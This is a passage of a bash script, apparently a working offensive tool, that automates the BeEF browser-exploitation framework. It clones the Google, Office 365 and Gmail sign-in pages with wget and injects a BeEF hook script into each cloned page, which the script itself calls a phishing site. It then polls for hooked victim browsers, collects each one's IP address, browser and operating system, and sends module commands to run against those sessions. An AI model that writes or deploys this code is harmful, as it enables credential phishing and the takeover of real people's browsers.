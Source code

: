 ```bash
    
    curl -s -X POST "$BEEF_URL/api/modules/$session/$module_id?token=$TOKEN" \
        -H "Content-Type: application/json" \
        -d "$options"
}

# Create a deceptive site with the BeEF hook
create_phishing_site() {
    local template="$1"
    local output_dir="$CLONE_DIR/$template"
    
    echo "Creating phishing site based on $template template..."
    mkdir -p "$output_dir"
    
    case "$template" in
        google)
            wget -q https://www.google.com -O "$output_dir/index.html"
            ;;
        office365)
            wget -q -r -l 1 -p -np -k -P "$output_dir" --domains=login.microsoftonline.com "https://login.microsoftonline.com"
            mv "$output_dir/login.microsoftonline.com"/* "$output_dir/"
            rmdir "$output_dir/login.microsoftonline.com"
            ;;
        gmail)
            wget -q -r -l 1 -p -np -k -P "$output_dir" --domains=accounts.google.com "https://accounts.google.com/signin/v2/identifier"
            mv "$output_dir/accounts.google.com"/* "$output_dir/"
            rmdir "$output_dir/accounts.google.com"
            ;;
        *)
            echo "Unknown template: $template"
            return 1
            ;;
    esac
    
    # Inject BeEF hook
    find "$output_dir" -name "*.html" -exec sed -i "s#</head>#<script src=\"$HOOK_URL\"></script></head>#g" {} \;
    
    echo "Phishing site created in $output_dir"
    echo "Ensure your web server is configured to serve this directory"
}

# Monitor for hooked browsers and execute basic modules
monitor_and_execute() {
    echo "Monitoring for hooked browsers..."
    
    while true; do
        # Get list of online browsers
        BROWSERS=$(get_hooked_browsers)
        BROWSER_COUNT=$(echo $BROWSERS | jq '.hooked | length')
        
        if [ "$BROWSER_COUNT" -gt 0 ]; then
            echo "Found $BROWSER_COUNT hooked browsers!"
            
            # Process each browser
            for i in $(seq 0 $((BROWSER_COUNT-1))); do
                SESSION=$(echo $BROWSERS | jq -r ".hooked | keys[$i]")
                IP=$(echo $BROWSERS | jq -r ".hooked.\"$SESSION\".ip")
                BROWSER=$(echo $BROWSERS | jq -r ".hooked.\"$SESSION\".browser_name")
                OS=$(echo $BROWSERS | jq -r ".hooked.\"$SESSION\".os_name")
                
```